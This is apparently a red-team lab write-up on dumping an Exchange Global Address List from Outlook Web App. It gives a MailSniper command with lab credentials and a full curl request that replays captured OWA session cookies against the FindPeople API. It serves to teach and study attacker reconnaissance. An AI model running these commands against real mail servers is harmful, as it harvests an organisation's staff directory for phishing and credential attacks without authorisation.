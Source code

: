 # Dump GAL from OWA

This lab uses MailSniper to dump Global Address List \(GAL\) off the Outlook Web Application \(OWA\).

GAL - in layman terms is simply an address book of all the people that are known to the Exchange mail server. You know those auto suggestions when you are typing in the email address in the TO field in your email client - they are coming from the GAL.

What Microsoft says about GAL:

> **Global address lists \(GALs\)**: The built-in GAL that's automatically created by Exchange includes every mail-enabled object in the Active Directory forest. You can create additional GALs to separate users by organization or location, but a user can only see and use one GAL.
>
> [https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019](https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019)

## Execution

Import the MailSniper module and dump the GAL, provided you have at least one set of working credentials:

{% code title="attacker@local" %}
```csharp
. MailSniper.ps1
Get-GlobalAddressList -ExchHostname dc01.offense.local -UserName offense\spotless -Password 123456
```
{% endcode %}

![GAL successfully dumped](../../.gitbook/assets/screenshot-from-2019-01-15-18-58-46.png)

When looking at the contacts through the OWA UI, as mentioned in Blackhill Security article, `GetPeopleFilters` API is called to retrieve the `AddressListID`:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-16-39.png)

It is then passed to `FindPeople` API:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-21-13.png)

...which in turn retrieves a JSON object with contacts from the GAL

![](../../.gitbook/assets/screenshot-from-2019-01-15-19-03-13.png)

If you are interested in the JSON only \(most likely\), just switch to the Response tab:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-12-57%20%281%29.png)

If you have logged on to the OWA UI, you could also dump the JSON via CURL in bash:

{% code title="attacker@kali" %}
```bash
curl 'https://dc01/owa/service.svc?action=FindPeople' -X POST -H 'Cookie: X-BackEndCookie=S-1-5-21-2552734371-813931464-1050690807-500=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/N0s7Lq87Gxc/PxczO&S-1-5-21-2552734371-813931464-1050690807-1106=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/O0s3Hq8/PxcvPxc/O; ClientId=TFFPI9GMPEWAPEYPZVIWXQ; PrivateComputer=true; PBack=0; cadata=ESW2hf2tJL2L7Czb69B+/VNo0l5+rM6POPTUJIv0Vj7vsXMUvbqXzNpIkl/GylwMQG4QQg9Y8PkjGlJXU94tEis0V03jSVdgBVUnhOm2cLE=; cadataTTL=lWhZTkknWXOawVEzMk2O5w==; cadataKey=J2xUs5cK+VfEie4cIY6lUI2mE/TkCnmPNm8GY8rJN4x0eZzPLJG5L6igl8y19Xy+i2nKIwKASgtsA8IhZ3uXHuPbd5QYpDZ0YB2yPwTxYCHmUcYWbwBnbt08EFJrAfUL1je4rYgk1iQ43za/S0q0j3Rk1bMqSG6Puk3h0cWkTh4sJ2TtJ/h2UypAVVcIzPZTicLTreFK9JfabW30+r4M+AeQQUGuFXof1iTsPx8TffjSXHeTa3rg+hTh8yZJKXieRfL9YSssSU1g+zRp09w2HqXvtqm0vtXrcCF7jLB3jBzSbC1KtQ+bYPoYQduxvhFS6TV2L8ky421wukMslBV9nQ==; cadataIV=LT7ecWINf5C9N2D4rIA8A1HcR936GFTNMtH3bVI/qr8UR0oi1+yhITjYBg1XIqt4W2YM+qPFXhKQrA0ExhlsObjAdd3KnExbAZwlLoz1YMLTo+tEKhpa6zSKjHvWsPwCZdRuXIOhvUeIyUA6XqpT/ALuCM+QzrY4K96CkkOhl276SAwqTO8cJ++9BdrF7Jcz2e0lWjdPyaXcCj7xCY7Ku6ci8SU2jfohVhUDJYJJo7DURhvLg8jto3r7Wihx2xk7/36V8SjFjz7PDhXiGKqHJltq9erLqXeNPmdZ1pwIxHywbwGNCYxdsnIrkrFRE9DRTiKrpGv2zLEz3LpcA/oBLA==; cadataSig=crGDgMGnHI1qkLJecj9/CHvQqjn8zYtdBTTU3HpszGTRysm+5JL80TnWuedWVPh3XQMFuyUdobef4WBJ3t1waLhBSGIPJSxis8fxCwChZ4nDgRlvnU4N8MJMwmw2l8dHCQTb950FGZYeuwiTxTwVQcHUwvtNQ6urkf4jlqro24G386GvPPXXpvjwZAfimSitjfzO4AucI1lv1Qbt6psmPnMphNDtn3n3R/eKvGPJWPT12DQOO4/qeyhv1Idtmi7QGSqASSQXNwP+Dtn0WPb2+RPtu3dhNf/KC+3babolnTavkYc/ioIVhHUA9J7mO8XX+c+0E94vBI1DYjJVOV2QUg==; ASP.NET_SessionId=0476a55e-b193-4001-ba25-214c7aa1ebc2; TimeOffset=0; Eac_CmdletLogging=false; UC=df6d6d163ec4477cb1b5ee11d6fcd5ae; AppcacheVer=15.1.225.42:en-uswrld; X-OWA-CANARY=DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Origin: https://dc01' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9' -H 'X-OWA-UrlPostData: %7B%22__type%22%3A%22FindPeopleJsonRequest%3A%23Exchange%22%2C%22Header%22%3A%7B%22__type%22%3A%22JsonRequestHeaders%3A%23Exchange%22%2C%22RequestServerVersion%22%3A%22Exchange2013%22%2C%22TimeZoneContext%22%3A%7B%22__type%22%3A%22TimeZoneContext%3A%23Exchange%22%2C%22TimeZoneDefinition%22%3A%7B%22__type%22%3A%22TimeZoneDefinitionType%3A%23Exchange%22%2C%22Id%22%3A%22GMT%20Standard%20Time%22%7D%7D%7D%2C%22Body%22%3A%7B%22__type%22%3A%22FindPeopleRequest%3A%23Exchange%22%2C%22IndexedPageItemView%22%3A%7B%22__type%22%3A%22IndexedPageView%3A%23Exchange%22%2C%22BasePoint%22%3A%22Beginning%22%2C%22Offset%22%3A0%2C%22MaxEntriesReturned%22%3A50%7D%2C%22QueryString%22%3Anull%2C%22ParentFolderId%22%3A%7B%22__type%22%3A%22TargetFolderId%3A%23Exchange%22%2C%22BaseFolderId%22%3A%7B%22__type%22%3A%22AddressListId%3A%23Exchange%22%2C%22Id%22%3A%224ee5c1bc-232a-4edb-b5e0-3596da3b7e05%22%7D%7D%2C%22PersonaShape%22%3A%7B%22__type%22%3A%22PersonaResponseShape%3A%23Exchange%22%2C%22BaseShape%22%3A%22Default%22%2C%22AdditionalProperties%22%3A%5B%7B%22__type%22%3A%22PropertyUri%3A%23Exchange%22%2C%22FieldURI%22%3A%22PersonaAttributions%22%7D%5D%7D%2C%22ShouldResolveOneOffEmailAddress%22%3Afalse%2C%22SearchPeopleSuggestionIndex%22%3Afalse%7D%7D' -H 'Action: FindPeople' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'X-OWA-CANARY: DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Content-Length: 0' -H 'X-OWA-ActionName: BrowseInDirectory' -H 'X-OWA-ActionId: -34' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36' -H 'Content-Type: application/json; charset=UTF-8' -H 'Accept: */*' -H 'X-OWA-ClientBuildVersion: 15.1.225.42' -H 'X-OWA-CorrelationId: TFFPI9GMPEWAPEYPZVIWXQ_154757883153962' -H 'X-OWA-ClientBegin: 2019-01-15T19:00:31.539' -H 'X-OWA-Attempt: 1' --compressed --insecure
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-15-19-26-46%20%281%29.png)

## References

[https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/](https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/)

{% embed url="https://www.blackhillsinfosec.com/downloading-an-address-book-from-an-outlook-web-app-owa-portal/" caption="" %}

